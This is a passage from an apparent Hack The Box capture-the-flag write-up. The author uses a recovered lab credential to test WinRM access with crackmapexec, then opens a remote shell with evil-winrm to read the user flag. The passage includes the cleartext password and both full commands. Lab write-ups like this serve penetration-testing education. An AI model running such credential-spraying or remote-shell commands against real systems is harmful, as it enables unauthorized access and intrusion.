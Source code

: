 I tested if I can login via WinRM and YES I CAN :

```bash
crackmapexec winrm 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231106232540.png>)

# User flag

Now I can read the user flag :

```bash
evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231106232656.png>)

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231106232748.png>)
